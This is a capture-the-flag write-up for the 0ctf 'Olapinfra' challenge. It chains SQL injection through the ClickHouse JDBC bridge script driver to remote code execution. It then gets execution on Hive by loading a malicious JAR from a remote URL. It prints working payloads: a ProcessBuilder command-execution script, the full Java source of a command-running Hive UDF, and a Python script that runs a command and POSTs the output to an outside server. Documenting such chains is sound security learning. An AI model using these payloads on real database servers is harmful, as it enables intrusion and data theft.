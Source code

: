 # Olapinfra writeup
## Summary
Part 1: SQL injection on `web` => Clickhouse `jdbc` script driver => RCE<br>
Part 2: Create exec function in `hive` => RCE<br>

## Overview
`web`: PHP web server that executes a `SELECT` db query against `clickhouse`. We control part of the query. <br>
`clickhouse`: Essentially just a DBMS. Set up to query `hive` for the `u_data` table. Not connected to the outside network. <br>
`hive`: A data warehouse that stores the `u_data` table. Uses `hadoop` to actually store said data. Not connected to the outside network. <br>
`hadoop`: Distributed storage that both `clickhouse` and `hive` rely on. Not connected to the outside network. <br>

## Process (part 1)
See SQL injection on `web` against `clickhouse`, spend a couple hours understanding how the whole chall is tied together.

```php
$statement = $db->select('SELECT * FROM u_data WHERE ' . $_GET['query'] . ' LIMIT 10');
```
<span class="caption">_the SQL vuln in `web`_</span>

So, `clickhouse` has its own SQL language, with a few extra functions defined. There were some interesting ones like `url()`, but the most interesting one is `jdbc-bridge`, used in the `Dockerfile` for the container, especially because ClickHouse has a page on security, so an RCE vuln against default ClickHouse would amount to a 0-day, which'd be unlikely. <br>

```Dockerfile
FROM clickhouse/jdbc-bridge:2.1.0
```
<span class="caption">_non-default stuff is usually kinda sus_</span>

![Bridge Diagram](https://user-images.githubusercontent.com/4270380/103492828-a06d1200-4e68-11eb-9287-ef830f575d3e.png)
<span class="caption">_Diagram on the JDBC bridge Github page_</span>

Turns out, the `script` driver accepts some weird mix between `javascript` and `java`, and with this payload, we get part 1:

```python
sqlinject=f"""
1=1 UNION ALL SELECT results, results, results, results FROM jdbc('script', `{script}`)
""".strip()
    
r = requests.get(f"{CHALL_URL}", params={
    "query": sqlinject
})
```

The script:

```javascript
var p = new java.lang.ProcessBuilder["(java.lang.String[])"](["/bin/sh", "-c", "/readflag"]).start();
var builder = new java.lang.StringBuilder();
var line = null;
while ((line = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream())).readLine()) != null) {{
    builder.append(line);
}}
var res = builder.toString();
```

## Process (part 2)
With RCE on `clickhouse`, we can start by assuming that we can make arbitrary connections to `hive` and `hadoop` (i.e., change the docker-compose network for `hive` to `outer-network`). `hive` has its own extended SQL language, called HiveQL, which also defines functions not found in standard SQL (User-Defined Functions, or UDFs).<br>

There's a rudimentary blacklist against what UDFs you can use, defined in `hive-site.xml`, which prevents easy ways of executing arbitrary Java code. Hive does allow creating functions from JARs.

```xml
    <property>
        <name>hive.server2.builtin.udf.blacklist</name>
        <value>reflect,reflect2,java_method</value>
    </property>
```
<span class="caption">_XML definition for UDF blacklist_</span><br>

```sql
CREATE FUNCTION [db_name.]function_name AS class_name
  [USING JAR|FILE|ARCHIVE 'file_uri' [, JAR|FILE|ARCHIVE 'file_uri'] ];
```
<span class="caption">_file\_uri??_</span>

So, we followed instructions [here](https://docs.cloudera.com/data-warehouse/cloud/querying-data/topics/hive_create_udf_class.html), exposed the JAR on a perl web server, sent a query to `hive` to create the function, and then executed it. This gave us RCE on part 2, so the final bit to complete was actually doing everything from part 1's RCE on `clickhouse`.<br>

<details closed>
    <summary>Source for JAR code</summary>

        package com.example;

        import org.apache.hadoop.hive.ql.exec.UDFArgumentException;
        import org.apache.hadoop.hive.ql.metadata.HiveException;
        import org.apache.hadoop.hive.ql.udf.generic.GenericUDF;
        import org.apache.hadoop.hive.serde2.objectinspector.ObjectInspector;
        import org.apache.hadoop.hive.serde2.objectinspector.primitive.PrimitiveObjectInspectorFactory;
        import org.apache.hadoop.io.Text;

        import avro.shaded.com.google.common.collect.ImmutableBiMap.Builder;

        import java.lang.ProcessBuilder;

        public class Execute extends GenericUDF {
        private final Text output = new Text();

        @Override
        public ObjectInspector initialize(ObjectInspector[] arguments) throws UDFArgumentException {
            checkArgsSize(arguments, 1, 1);
            checkArgPrimitive(arguments, 0);
            ObjectInspector outputOI = PrimitiveObjectInspectorFactory.writableStringObjectInspector;
            return outputOI;
        }

        @Override
        public Object evaluate(DeferredObject[] arguments) throws HiveException {
            String cmd = arguments[0].get().toString();
            try {
            ProcessBuilder pb = new ProcessBuilder(cmd.split(" "));
            Process p = pb.start();
            p.waitFor();
            String result = "";
            StringBuilder builder = new java.lang.StringBuilder();
            String line = null;
            while ((line = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream())).readLine()) != null) {
                builder.append(line);
            }
            String res = builder.toString();
            output.set(res);
            } catch (Exception e) {
            output.set(e.toString());
            }
            return output;
        }

        @Override
        public String getDisplayString(String[] children) {
            return getStandardDisplayString("TYPEOF", children, ",");
        }
        }
</details>

<details closed>
    <summary>Getting RCE on Hive</summary>

    from pyhive import hive
    import socket

    domain = "web-server-url"
    url = f"https://{domain}"
    url = f"{url}/demo/target/demo-1.0-SNAPSHOT.jar"
    con=hive.Connection(host="localhost",port=10000,username="default")
    cursor = con.cursor()
    try:
        stmt = f'create function exec as "com.example.Execute" using jar "{url}"'
        cursor.execute(stmt)
    except:
        pass # already exists
    stmt = f'select exec("/readflag")'
    cursor.execute(stmt)
    res = (cursor.fetchall())
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((domain, 80))
    s.sendall(f"""POST / HTTP/1.1
    Content-Type: application/json
    Content-Length: {len(res[0][0])}

    {res[0][0]}
    """)
</details>

<br>

So, we converted the above script to a binary (`PyInstaller`), sent it over the RCE vector, together with the JAR and an HTTP server, had `hive` fetch the function JAR from `clickhouse`, and got RCE on part 2.<br>

`0ctf{the_world_is_chaos_and_so_do_this_challenge}`<br>

(Btw, because everything but `web` is on the inner network, they can't download anything publicly accessible, and because the SQL injection vector is in a query param, we can only send about 4kB of data per connection. The binaries alone were 3MB...)

## Sources:
- https://github.com/ClickHouse/clickhouse-jdbc-bridge (ClickHouse JDBC bridge)
- https://cwiki.apache.org/confluence/display/Hive/ (Hive docs)
- https://cwiki.apache.org/confluence/display/Hive/LanguageManual+DDL#:~:text=Permanent+Functions (Hive docs for creating UDFs)
